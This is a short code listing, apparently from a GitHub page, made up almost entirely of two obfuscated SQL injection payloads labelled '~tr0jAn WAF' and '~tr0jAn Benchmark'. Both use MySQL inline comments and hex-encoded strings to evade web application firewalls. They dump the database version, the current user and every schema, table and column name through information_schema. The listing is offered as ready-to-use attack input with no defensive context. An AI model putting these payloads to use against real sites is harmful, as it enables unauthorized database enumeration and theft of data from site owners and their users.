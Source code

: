 ```sql
-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

-- ~tr0jAn Benchmark
+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+

-- N1Z4M WAF
```